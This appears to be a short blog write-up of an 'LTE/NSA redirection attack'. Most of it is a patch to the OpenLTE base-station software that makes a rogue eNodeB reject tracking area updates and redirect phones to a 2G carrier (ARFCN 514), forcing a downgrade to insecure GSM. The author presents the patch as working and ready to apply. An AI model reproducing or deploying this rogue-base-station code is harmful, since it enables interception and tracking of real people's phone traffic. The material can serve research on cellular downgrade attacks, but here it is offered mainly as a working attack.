

# LTE/NSA Redirection Attack




[](assets/diagram1_2G_act2.png)


[](assets/diagram1_2G_act3.png)

What is the way ? Now the eNodeB (evolved Node BTS the 4G BTS) must
authenticate with the phone... What to do then ? Fallback into 2G ! The
phone before authenticate send a tracking area update request and the
eNodeB respond it with a TAU accept what we will do then ? Reject It !
Say that only 2G is available in the area ;)

``` sourceCode
--- openlte_v00-20-05/liblte/src/liblte_rrc.cc  2016-10-09 22:17:50.000000000 +0200
+++ openlte_v00-20-05/liblte/src/liblte_rrc.cc  2022-01-25 17:14:32.613323868 +0100
@@ -11698,13 +11698,28 @@
 liblte_value_2_bits(0, &msg_ptr, 2);

 // Optional indicators
-liblte_value_2_bits(0, &msg_ptr, 1);
+liblte_value_2_bits(1, &msg_ptr, 1);
 liblte_value_2_bits(0, &msg_ptr, 1);
 liblte_value_2_bits(0, &msg_ptr, 1);

 // Release cause
 liblte_value_2_bits(con_release->release_cause, &msg_ptr, 2);

+// redirectedcarrierinfo
+// geran // choice
+liblte_value_2_bits(1, &msg_ptr, 4);
+// arfcn no.
+liblte_value_2_bits(514, &msg_ptr, 10);
+// dcs1800
+liblte_value_2_bits(0, &msg_ptr, 1);
+// Choice of following ARFCN
+liblte_value_2_bits(0, &msg_ptr, 2);
+// explicit list
+liblte_value_2_bits(1, &msg_ptr, 5);
+// arfcn no.
+liblte_value_2_bits(514, &msg_ptr, 10);
+// Note that total bits should be octet aligned,
+// if not, pad it with zeros.
 // Fill in the number of bits used
 msg->N_bits = msg_ptr - msg->msg;

--- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2017-07-29 21:58:37.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h  2022-01-25 16:49:13.365515919 +0100
@@ -106,6 +106,7 @@
 // Message Parsers
 void parse_attach_complete(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
 void parse_attach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
+void send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
 void parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
 void parse_authentication_response(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
 void parse_detach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
@@ -125,6 +126,8 @@
 // Message Senders
 void send_attach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
 void send_attach_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
+void send_tracking_area_update_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
+void send_tracking_area_update_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
 void send_authentication_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
 void send_authentication_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
 void send_detach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
--- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2017-07-29 22:03:51.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h   2022-01-25 16:49:13.365515919 +0100
@@ -99,18 +99,21 @@
 typedef enum{
 LTE_FDD_ENB_MME_PROC_IDLE = 0,
 LTE_FDD_ENB_MME_PROC_ATTACH,
+LTE_FDD_ENB_MME_PROC_TAU_REQUEST,
 LTE_FDD_ENB_MME_PROC_SERVICE_REQUEST,
 LTE_FDD_ENB_MME_PROC_DETACH,
 LTE_FDD_ENB_MME_PROC_N_ITEMS,
 }LTE_FDD_ENB_MME_PROC_ENUM;
 static const char LTE_fdd_enb_mme_proc_text[LTE_FDD_ENB_MME_PROC_N_ITEMS][100] = {"IDLE",
   "ATTACH",
+ "TAU REQUEST",
   "SERVICE REQUEST",
   "DETACH"};

 typedef enum{
 LTE_FDD_ENB_MME_STATE_IDLE = 0,
 LTE_FDD_ENB_MME_STATE_ID_REQUEST_IMSI,
+LTE_FDD_ENB_MME_STATE_TAU_REJECT,
 LTE_FDD_ENB_MME_STATE_REJECT,
 LTE_FDD_ENB_MME_STATE_AUTHENTICATE,
 LTE_FDD_ENB_MME_STATE_AUTH_REJECTED,
@@ -126,7 +129,7 @@
 }LTE_FDD_ENB_MME_STATE_ENUM;
 static const char LTE_fdd_enb_mme_state_text[LTE_FDD_ENB_MME_STATE_N_ITEMS][100] = {"IDLE",
 "ID REQUEST IMSI",
-"REJECT",
+   "REJECT",
 "AUTHENTICATE",
 "AUTH REJECTED",
 "ENABLE SECURITY",
--- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2017-07-29 22:15:50.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc 2022-01-25 17:07:55.380027792 +0100
@@ -204,6 +204,10 @@
 case LIBLTE_MME_MSG_TYPE_ATTACH_REQUEST:
 parse_attach_request(msg, &nas_msg->user, &nas_msg->rb);
 break;
+case LTE_FDD_ENB_MME_PROC_TAU_REQUEST:
+send_tracking_area_update_request(msg, &nas_msg->user, &nas_msg->rb);
+break;
+
 case LIBLTE_MME_MSG_TYPE_AUTHENTICATION_FAILURE:
 parse_authentication_failure(msg, nas_msg->user, nas_msg->rb);
 break;
@@ -655,6 +659,16 @@
 }
 }
 }
+void LTE_fdd_enb_mme::send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT  *msg,
+   LTE_fdd_enb_user   **user,
+   LTE_fdd_enb_rb **rb)
+{
+// Set the procedure
+
+(*rb) -> set_mme_procedure(LTE_FDD_ENB_MME_PROC_TAU_REQUEST);
+(*rb) -> set_mme_state(LTE_FDD_ENB_MME_STATE_TAU_REJECT);}
+
+
 void LTE_fdd_enb_mme::parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg,
LTE_fdd_enb_user   *user,
LTE_fdd_enb_rb *rb)
@@ -864,7 +878,7 @@
 rb->set_mme_state(LTE_FDD_ENB_MME_STATE_AUTHENTICATE);
 user->set_id(hss->get_user_id_from_imei(imei_num));
 }else{
-user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_SECURITY_CAPABILITIES_MISMATCH);
+user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_IDENTITY_CANNOT_BE_DERIVED_BY_THE_NETWORK);
 rb->set_mme_state(LTE_FDD_ENB_MME_STATE_REJECT);
 }
 }else{
@@ -1195,6 +1209,9 @@
 user->prepare_for_deletion();
 send_attach_reject(user, rb);
 break;
+ case LTE_FDD_ENB_MME_STATE_TAU_REJECT:
+send_tracking_area_update_reject(user, rb);
+break;
 case LTE_FDD_ENB_MME_STATE_AUTHENTICATE:
 send_authentication_request(user, rb);
 break;
@@ -1397,6 +1414,52 @@
   (LTE_FDD_ENB_MESSAGE_UNION *)&cmd_ready,
   sizeof(LTE_FDD_ENB_RRC_CMD_READY_MSG_STRUCT));
 }
+
+
+
+
+void LTE_fdd_enb_mme::send_tracking_area_update_reject(LTE_fdd_enb_user *user,
+ LTE_fdd_enb_rb   *rb)
+{
+LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT nas_msg_ready;
+LIBLTE_MME_TRACKING_AREA_UPDATE_REJECT_MSG_STRUCT  ta_update_rej;
+LIBLTE_BYTE_MSG_STRUCT   msg;
+ ta_update_rej.emm_cause = user->get_emm_cause();
+ ta_update_rej.t3446_present = false;
+ liblte_mme_pack_tracking_area_update_reject_msg(
+ &ta_update_rej,
+ LIBLTE_MME_SECURITY_HDR_TYPE_PLAIN_NAS,
+ user->get_auth_vec()->k_nas_int,
+ user->get_auth_vec()->nas_count_dl,
+ LIBLTE_SECURITY_DIRECTION_DOWNLINK,
+ &msg);
+// Queue the NAS message for RRC
+rb->queue_rrc_nas_msg(&msg);
+
+// Signal RRC for NAS message
+nas_msg_ready.user = user;
+nas_msg_ready.rb   = rb;
+msgq_to_rrc->send(LTE_FDD_ENB_MESSAGE_TYPE_RRC_NAS_MSG_READY,
+  LTE_FDD_ENB_DEST_LAYER_RRC,
+  (LTE_FDD_ENB_MESSAGE_UNION *)&nas_msg_ready,
+  sizeof(LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT));
+
+send_rrc_command(user, rb, LTE_FDD_ENB_RRC_CMD_RELEASE);
+// Unpack the message
+liblte_mme_unpack_tracking_area_update_reject_msg(&msg, &ta_update_rej);
+
+interface->send_ctrl_info_msg("user fully attached imsi=%s imei=%s",
+  user->get_imsi_str().c_str(),
+  user->get_imei_str().c_str());
+
+rb->set_mme_state(LTE_FDD_ENB_MME_STATE_ATTACHED);
+}
+
+
+
+
+
+
 void LTE_fdd_enb_mme::send_attach_reject(LTE_fdd_enb_user *user,
  LTE_fdd_enb_rb   *rb)
 {
@@ -1412,7 +1475,7 @@
 imsi_num = user->get_temp_id();
 }

-attach_rej.emm_cause   = user->get_emm_cause();
+attach_rej.emm_cause   = 2;
 attach_rej.esm_msg_present = false;
 attach_rej.t3446_value_present = false;
 liblte_mme_pack_attach_reject_msg(&attach_rej, &msg);

--- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2017-07-29 22:18:34.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc   2022-01-25 17:09:37.116388236 +0100
@@ -229,7 +229,7 @@
 try
 {
 // Setup the USRP
-if(devs[idx-1]["type"] == "x300")
+if(devs[idx-1]["type"] == "soapy")
 {
 devs[idx-1]["master_clock_rate"] = "184320000";
 master_clock_set = true;
@@ -252,7 +252,6 @@
 usrp->set_rx_freq((double)liblte_interface_ul_earfcn_to_frequency(ul_earfcn));
 usrp->set_tx_gain(tx_gain);
 usrp->set_rx_gain(rx_gain);
-
 // Setup the TX and RX streams
 tx_stream  = usrp->get_tx_stream(stream_args);
 rx_stream  = usrp->get_rx_stream(stream_args);
@@ -822,7 +821,7 @@
 buffer_size = 1024;
 }
 status = bladerf_sync_config(bladerf,
- BLADERF_MODULE_TX,
+BLADERF_TX_X1,
  BLADERF_FORMAT_SC16_Q11_META,
  BLADERF_NUM_BUFFERS,
  buffer_size,
@@ -842,7 +841,7 @@

 // Setup sync RX
 status = bladerf_sync_config(bladerf,
- BLADERF_MODULE_RX,
+BLADERF_RX_X1,
  BLADERF_FORMAT_SC16_Q11_META,
  BLADERF_NUM_BUFFERS,
  buffer_size,
@@ -974,7 +973,7 @@
 if(radio_params->init_needed)
 {
 // Assume RX_timestamp and TX_timestamp difference is 0
-bladerf_get_timestamp(bladerf, BLADERF_MODULE_RX, (uint64_t*)&rx_ts);
+bladerf_get_timestamp(bladerf, BLADERF_RX, (uint64_t*)&rx_ts);
 next_tx_ts= rx_ts + radio_params->samp_rate; // 1 second to make sure everything is setup
 metadata_rx.flags = 0;
 metadata_rx.timestamp = next_tx_ts - (radio_params->N_samps_per_subfr*2); // Retard RX by 2 subframes
```

This patch applied on the OpenLTE suite should do the trick.

<iframe width="560" height="315" src="assets/redir.mp4" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

And it does !


<object data="assets/my.pdf" type="application/pdf" width="700px" height="700px">
    <embed src="assets/my.pdf">
        <p>This browser does not support PDFs. Please download the PDF to view it: <a href="assets/my.pdf">Download PDF</a></p>
    </embed>
</object>

<object data="assets/redir.pdf" type="application/pdf" width="700px" height="700px">
    <embed src="assets/redir.pdf">
        <p>This browser does not support PDFs. Please download the PDF to view it: <a href="assets/redir.pdf">Download PDF</a></p>
    </embed>
</object>

